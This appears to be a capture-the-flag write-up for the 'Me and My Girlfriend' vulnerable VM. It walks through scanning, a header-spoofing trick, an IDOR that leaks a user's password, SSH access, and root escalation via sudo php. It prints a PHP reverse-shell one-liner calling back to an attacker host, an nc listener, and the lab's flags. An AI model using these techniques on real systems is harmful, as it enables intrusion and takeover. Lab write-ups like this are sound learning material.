







**Vulnerable System**: Me and My Girlfriend
===========================================

**Operating System**: Ubuntu 14.04

**Kernel**: 4.4.0

**Vulnerability Exploited**: Insecure Direct Object Reference (IDOR)

**Exploit Used**: N/A

**Proof of Concept Code**: N/A

**Vulnerability Explained**: In the web application, there is no access control
implemented between different users’ accounts. Therefore other users’ account
pages can be accessed simply by changing ID parameter in the URL.

**Vulnerability fix**: Implement sufficient access control. The user has to be
authorized to access request information. Use something less obvious for the
reference such as randomly generated string instead of incrementing integer.

**Severity**: **Medium**

**Privilege Escalation Vulnerability**: Excessive sudo privileges

**Exploit Used**: N/A

**Proof of Concept Code**: /usr/bin/php -r '\$sock=fsockopen("ip address",
port);exec("/bin/sh -i \<&3 \>&3 2\>\&3");'

**Privilege Escalation Vulnerability Explained:** Regular user had sudo
privileges to execute php commands. With the help of php, operating system
commands can be executed or in this case a reverse shell with root privileges
was spawned.

**Vulnerability fix**: Restrict what regular users can do using sudo according
to the principal of the least privilege.

**Severity**: **High**

Methodology
-----------

-   Host Discovery (netdiscover)

-   Port Scanning (nmap)

-   Web App Vulnerability Scan (nikto)

-   Web Page Enumeration (browser, BurpSuite)

-   Low Privilege Escalation (IDOR, ssh)

-   Privilege Escalation (sudo -l, php)

Reconnaissance
--------------

### Host Discovery (Netdiscover)

lifesfun:\~\# netdiscover -r 192.168.211.0/24

Currently scanning: Finished! \| Screen View: Unique Hosts

11 Captured ARP Req/Rep packets, from 3 hosts. Total size: 660

\____________________________________________________________________________\_

IP At MAC Address Count Len MAC Vendor / Hostname

\-----------------------------------------------------------------------------

192.168.211.1 00:50:56:c0:00:01 4 240 VMware, Inc.

192.168.211.148 00:0c:29:6a:ff:83 5 300 VMware, Inc.

192.168.211.254 00:50:56:ea:5e:21 2 120 VMware, Inc.

### Port Scanning (Nmap)

#### All Ports Scan.

lifesfun:\~\# nmap -p- 192.168.211.148

Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-17 11:11 EST

Nmap scan report for 192.168.211.148

Host is up (0.00069s latency).

Not shown: 65533 closed ports

PORT STATE SERVICE

22/tcp open ssh

80/tcp open http

MAC Address: 00:0C:29:6A:FF:83 (VMware)

#### Aggressive, Version & Default Script Scan

lifesfun:\~\# nmap -A -sV -sC -p 22,80 192.168.211.148

Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-17 11:14 EST

Nmap scan report for 192.168.211.148

Host is up (0.00065s latency).

PORT STATE SERVICE VERSION

22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)

\| ssh-hostkey:

\| 1024 57:e1:56:58:46:04:33:56:3d:c3:4b:a7:93:ee:23:16 (DSA)

\| 2048 3b:26:4d:e4:a0:3b:f8:75:d9:6e:15:55:82:8c:71:97 (RSA)

\| 256 8f:48:97:9b:55:11:5b:f1:6c:1d:b3:4a:bc:36:bd:b0 (ECDSA)

\|\_ 256 d0:c3:02:a1:c4:c2:a8:ac:3b:84:ae:8f:e5:79:66:76 (ED25519)

80/tcp open http Apache httpd 2.4.7 ((Ubuntu))

\|_http-server-header: Apache/2.4.7 (Ubuntu)

\|_http-title: Site doesn't have a title (text/html).

MAC Address: 00:0C:29:6A:FF:83 (VMware)

Warning: OSScan results may be unreliable because we could not find at least 1
open and 1 closed port

Device type: general purpose

Running: Linux 3.X\|4.X

OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4

OS details: Linux 3.2 - 4.9

Network Distance: 1 hop

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE

HOP RTT ADDRESS

1 0.65 ms 192.168.211.148

### Web Port Enumeration (nikto, browser, BurpSuite)

#### Web App Vulnerability Scan (nikto)

lifesfun:\~\# nikto -h 192.168.211.148

\- Nikto v2.1.6

\---------------------------------------------------------------------------

\+ Target IP: 192.168.211.148

\+ Target Hostname: 192.168.211.148

\+ Target Port: 80

\+ Start Time: 2019-12-17 11:12:42 (GMT-5)

\---------------------------------------------------------------------------

\+ Server: Apache/2.4.7 (Ubuntu)

\+ Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.29

\+ The anti-clickjacking X-Frame-Options header is not present.

\+ The X-XSS-Protection header is not defined. This header can hint to the user
agent to protect against some forms of XSS

\+ The X-Content-Type-Options header is not set. This could allow the user agent
to render the content of the site in a different fashion to the MIME type

\+ No CGI Directories found (use '-C all' to force check all possible dirs)

\+ Entry '/heyhoo.txt' in robots.txt returned a non-forbidden or redirect HTTP
code (200)

\+ "robots.txt" contains 1 entry which should be manually viewed.

\+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37).
Apache 2.2.34 is the EOL for the 2.x branch.

\+ Web Server returns a valid response with junk HTTP methods, this may cause
false positives.

\+ OSVDB-3268: /config/: Directory indexing found.

\+ /config/: Configuration information may be available remotely.

\+ OSVDB-3268: /misc/: Directory indexing found.

\+ OSVDB-3092: /misc/: This might be interesting...

\+ OSVDB-3233: /icons/README: Apache default file found.

\+ 7916 requests: 0 error(s) and 13 item(s) reported on remote host

\+ End Time: 2019-12-17 11:13:52 (GMT-5) (70 seconds)

\---------------------------------------------------------------------------

\+ 1 host(s) tested

#### Browser & Web Proxy (BurpSuite)

The home pages presented one with the following message.

This can be a hint that somehow the browser needs to be tricked into thinking
the request is coming from the local machine. Further enumerating the source
code of the page for the next hint.

As the hint suggests, using Burp Suite the request is intercepted and
x-forwarded-for header with value localhost is added as shown below. (The header
needs to be there for every future request)

In turn this reveals the priorly hidden page.

Low Privilege Exploitation (IDOR, ssh)
--------------------------------------

Once registered and logged in, continue to profile page.

As can be seen by the profile's page URL, there's a possible case of insecure
direct object reference (IDOR) in user_id parameter.

If the parameter is changed to another number, another user's profile can be
accessed, various numbers were tried until Alice’s profile was found as shown
below.

The source code of the page can the be viewed in order to see saved password.

With Alice’s credentials obtained, ssh can be used to logged in next.

ssh alice\@192.168.211.148

alice\@192.168.211.148's password:

Last login: Fri Dec 13 14:48:25 2019

alice\@gfriEND:\~\$ ls -laht

total 32K

\-rw------- 1 alice alice 10 Dec 13 14:48 .bash_history

drwxr-xr-x 4 alice alice 4.0K Dec 13 14:47 .

drwxrwxr-x 2 alice alice 4.0K Dec 13 14:10 .my_secret

drwx------ 2 alice alice 4.0K Dec 13 12:43 .cache

drwxr-xr-x 6 root root 4.0K Dec 13 12:18 ..

\-rw-r--r-- 1 alice alice 220 Dec 13 12:16 .bash_logout

\-rw-r--r-- 1 alice alice 3.6K Dec 13 12:16 .bashrc

\-rw-r--r-- 1 alice alice 675 Dec 13 12:16 .profile

alice\@gfriEND:\~\$ cd .my_secret/

alice\@gfriEND:\~/.my_secret\$ ls

flag1.txt my_notes.txt

alice\@gfriEND:\~/.my_secret\$ cat flag1.txt

Greattttt my brother! You saw the Alice's note! Now you save the record
information to give to bob! I know if it's given to him then Bob will be hurt
but this is better than Bob cheated!

Now your last job is get access to the root and read the flag \^_\^

Flag 1 : gfriEND{2f5f21b2af1b8c3e227bcf35544f8f09}

Privilege Escalation
--------------------

### Enumeration (sudo -l)

alice\@gfriEND:\~/.my_secret\$ sudo -l

Matching Defaults entries for alice on gfriEND:

env_reset, mail_badpass,

secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User alice may run the following commands on gfriEND:

(root) NOPASSWD: /usr/bin/php

Looks like PHP can be executed as root, which means reverse shell can be
executed as root.

### Escalation (php)

PHP can be used to spawn a reverse shell as per below.

#### Victim machine.

alice\@gfriEND:\~\$ sudo /usr/bin/php -r
'\$sock=fsockopen("192.168.211.146",443);exec("/bin/sh -i \<&3 \>&3 2\>\&3");'

#### Attacker machine.

lifesfun:\~\# nc -nvlp 443

listening on [any] 443 ...

connect to [192.168.211.146] from (UNKNOWN) [192.168.211.148] 48892

\# python -c "import pty;pty.spawn('/bin/bash')"

### Root Flag

root\@gfriEND:\~\# cd /root

cd /root

root\@gfriEND:/root\# ls

ls

flag2.txt

root\@gfriEND:/root\# cat flag2.txt

cat flag2.txt

\_______\_ \_\_ \___________._\_ \___________._\_ ._.

/ \_____/ \_____/ \|\_ \\_\_ \___/\| \|_\_ \___\_ \\\_ \_____/\| \| \____\_
\____\| \|

/ \\ \__\_ / \_ \\ \__\\ \| \| \| \| \\_/ \_\_ \\ \| \__) \| \| \\_\_ \\ /
\___\\ \|

\\ \\_\\ ( \<_\> ) \| \| \| \| Y \\ \___/ \| \\ \| \|__/ \_\_ \\_/ /_/ \>\|

\\_____\_ /\\____/\|__\| \|____\| \|___\| /\\__\_ \> \\__\_ / \|____(___\_
/\\__\_ /_\_

\\/ \\/ \\/ \\/ \\//_____/ \\/

Yeaaahhhh!! You have successfully hacked this company server! I hope you who
have just learned can get new knowledge from here :) I really hope you guys give
me feedback for this challenge whether you like it or not because it can be a
reference for me to be even better! I hope this can continue :)

Contact me if you want to contribute / give me feedback / share your writeup!

Twitter: \@makegreatagain\_

Instagram: \@aldodimas73

Thanks! Flag 2: gfriEND{56fbeef560930e77ff984b644fde66e7}

root\@gfriEND:/root\# lifesfun \^_\^
